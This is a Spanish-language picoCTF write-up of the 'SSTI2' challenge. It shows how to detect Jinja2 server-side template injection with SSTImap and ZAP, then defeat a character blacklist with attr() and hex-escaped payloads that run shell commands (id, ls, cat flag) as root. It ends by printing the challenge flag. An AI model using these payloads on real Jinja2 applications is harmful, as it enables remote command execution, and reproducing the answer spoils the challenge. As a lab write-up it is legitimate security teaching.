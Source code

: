 ```yaml
---
title: SSTI2
date: 2025-07-22 23:00:00 +0200
categories: [writeup, picoctf]
tags: [picoctf, explotación web]     
image:
    path: https://picoctf.org/img/logos/pico-mark.svg
    alt: PicoCTF
---
```


>SSTI2
Author: Venax
Description
I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :) I heard templating is a cool and modular way to build web apps! Check out my website here!
{: .prompt-tip }

El reto se inicia con un formulario web que propone una entrada para hacer un anuncio, introduces un texto y se muestra en otra página en letras grandes.

```html
 Home

I built a cool website that lets you announce whatever you want!*
What do you want to announce: 
```

Si echamos la vista atrás en en reto [pico-ctf-sst1](../pico-ctf-sst1) ya hacíamos esta comprobación de provocar un error al introducir una división por zero y en este reto podemos hacer lo mismo, obteniendo el primer positivo al introducir { {1/0} }, en principio un positivo.

``` html
Internal Server Error
The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.
```

En dicha ocasión me valí de **Sttimap** una herramienta que automatiza el proceso de explotación de este tipo de vulnerabilidades. Esta vez la detección nos dice que no puede levantar una shell, pero parece que sí hay un punto de inyección con motor Jinja2, supuestamente vulnerable. Toca seguir escarbando.

``` shell
(sstimap) pablo☠office sstimap$ ./sstimap.py  -f --os-shell --url="http://shape-facility.picoctf.net:52506"

    ╔══════╦══════╦═══════╗ ▀█▀
    ║ ╔════╣ ╔════╩══╗ ╔══╝═╗▀╔═
    ║ ╚════╣ ╚════╗  ║ ║    ║{║  _ __ ___   __ _ _ __
    ╚════╗ ╠════╗ ║  ║ ║    ║*║ | '_ ` _ \ / _` | '_ \
    ╔════╝ ╠════╝ ║  ║ ║    ║}║ | | | | | | (_| | |_) |
    ╚══════╩══════╝  ╚═╝    ╚╦╝ |_| |_| |_|\__,_| .__/
                             │                  | |
                                                |_|
[*] Version: 1.2.3
[*] Author: @vladko312
[*] Based on Tplmap
[!] LEGAL DISCLAIMER: Usage of SSTImap for attacking targets without prior mutual consent is illegal.
It is the end user's responsibility to obey all applicable local, state and federal laws.
Developers assume no liability and are not responsible for any misuse or damage caused by this program
[*] Loaded plugins by categories: languages: 5; generic: 3; legacy_engines: 2; engines: 17
[*] Loaded request body types: 4

[*] Starting form detection...
[+] Form found: POST http://shape-facility.picoctf.net:52506/ "content="
[*] Scanning form with url: http://shape-facility.picoctf.net:52506/
[+] SSTImap identified the following injection point:

  Body parameter: content
  Engine: Jinja2
  Injection: *
  Context: text
  OS: undetected
  Technique: render
  Capabilities:

    Shell command execution: no
    Bind and reverse shell: no
    File write: no
    File read: no
    Code evaluation: no

[-] No system command execution capabilities have been detected on the target.
```

Al capturar con Zap proxy el request, me doy cuenta de el el request se codifica antes de ser enviado. 

``` html
POST http://shape-facility.picoctf.net:52506/ HTTP/1.1
Host: shape-facility.picoctf.net:52506
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://shape-facility.picoctf.net:52506
Connection: keep-alive
Referer: http://shape-facility.picoctf.net:52506/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

content=%7B%7B3*3%7D%7D
```

%7B%7B3*3%7D%7D = {\{3*3}\} 

Busqué un payload que funcionase con esta vulnerabilidad y encontré lo que me pareción muy razonable. Pues supuestamente estaríamos haciendo que este motor ejecute instrucciones de Python, por lo que podemos intentar algo así:

[https://github.com/Jieyab89/Jinja2-python-or-flask-SSTI-vulnerability-payload-](https://github.com/Jieyab89/Jinja2-python-or-flask-SSTI-vulnerability-payload-)

>\{\{ request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('whoami')['read']() \}\}

Sin embargo el la web del formulario al enviar este payload nos envía a una web con el siguente mensaje

``` html 
Stop trying to break me >:(
```

Bueno no es la flag pero nos da una pista, si además hacemos caso de las pistas proporcionadas "Why is blacklisting characters a bad idea to sanitize input?", ¿Es posible que haya algún caracter(es) que filtre el formulario?.

Al hacer el request y capturar con Zap nos muestra que hay ciertos caracteres que no se está encodeando.

``` html
POST http://shape-facility.picoctf.net:52506/ HTTP/1.1
Host: shape-facility.picoctf.net:52506
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/x-www-form-urlencoded
Content-Length: 192
Origin: http://shape-facility.picoctf.net:52506
Connection: keep-alive
Referer: http://shape-facility.picoctf.net:52506/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

content=%7B%7B+request%5B%27application%27%5D%5B%27__globals__%27%5D%5B%27__builtins__%27%5D%5B%27__import__%27%5D%28%27os%27%29%5B%27popen%27%5D%28%27whoami%27%29%5B%27read%27%5D%28%29+%7D%7D
```

Encontré un payload aún más razonable respecto a lo comenta su autor. evitar que un WAF detecte ciertos caracteres como "_" o el ".", además este payload está adaptado a Jinja2. Por cierto muy interesante el repositorio, está lleno de payloads.
[https://github.com/swisskyrepo/PayloadsAllTheThings/pull/181/commits/7e7f5e762831266b22531c258d628172c7038bb9](https://github.com/swisskyrepo/PayloadsAllTheThings/pull/181/commits/7e7f5e762831266b22531c258d628172c7038bb9)

## ¿Qué es attr en Jinja2?
En Jinja2, attr es un filtro que sirve para acceder a un atributo de un objeto de forma dinámica usando el nombre del atributo como cadena.
Se utiliza cuando se hace uso de Jinja2 en un proyecto de esta forma. Y es la misma forma que vamos a probar para lanzar comandos.

\{\{ obj|attr('nombre_atributo') \}\}

## Generando un payload dirigido

\{\{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()\}\}

Resultado somos root

```
uid=0(root) gid=0(root) groups=0(root) 
```
Buscamos la flag primero lanzando un ls

\{\{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()\}\}

Encontramos el archivo flag

```
__pycache__ app.py flag requirements.txt 
```

Ya solo queda leer el archivo

\{\{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()\}\}


picoCTF{sst1_f1lt3r_byp4ss_0ef4bd3d}

flag: **picoCTF{sst1_f1lt3r_byp4ss_0ef4bd3d}**

Nota: Si alguno de estos payloads no te funciona prueba a juntar las llaves "{" pues es problemático para Chirpy.